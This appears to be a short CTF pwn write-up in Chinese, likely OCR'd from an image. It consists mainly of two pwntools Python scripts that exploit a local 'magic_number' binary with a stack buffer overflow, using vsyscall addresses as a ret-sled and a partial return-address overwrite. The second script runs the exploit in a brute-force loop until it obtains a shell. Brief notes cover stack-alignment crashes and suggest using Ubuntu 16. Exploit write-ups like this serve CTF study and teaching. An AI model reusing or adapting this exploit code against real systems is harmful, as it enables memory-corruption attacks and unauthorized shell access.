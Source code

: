 > 在爆破之前请先运行如下脚本看是否会崩溃（关ALSR），若崩溃的原因是xmm 16字节对齐，则爆破脚本无法getshell
>

```python
#coding=utf-8
from pwn import *
context.log_level="debug"
context.terminal = ['tmux','splitw','-h']

p=process("./magic_number")
vsyscall_start_addr=0xffffffffff600000
payload="a"*0x38+p64(vsyscall_start_addr)*7+'\xa8'+'\x4a'
p.recvuntil('Your Input :\n')
#gdb.attach(proc.pidof(p)[0],gdbscript="b *$rebase(0xAE0)")
p.send(payload)
#p.recv(timeout=2)
p.interactive()
```

```python
#coding=utf-8
from pwn import *
context.log_level="debug"
context.terminal = ['tmux','splitw','-h']

def attack():
    global p
    p=process("./magic_number")
    vsyscall_start_addr=0xffffffffff600000
    payload="a"*0x38+p64(vsyscall_start_addr)*7+'\xa8'+'\x4a'
    p.recvuntil('Your Input :\n')
    #gdb.attach(proc.pidof(p)[0],gdbscript="b *$rebase(0xAE0)")
    p.send(payload)
    p.recv(timeout=2) #若程序崩溃则recv会崩溃，触发python异常
    p.interactive()

if __name__ == '__main__':
    time=1
    while True:
        try:
            log.info("No.%d try attack"%(time))
            attack()
        except EOFError:
            p.close()
            log.failure("EOFError")
            time = time + 1
            continue
        except KeyboardInterrupt:
            log.info("KeyboardInterrupt")
            break
```

> 若此脚本因xmm导致无法getshell，则请切换为ubuntu16
>
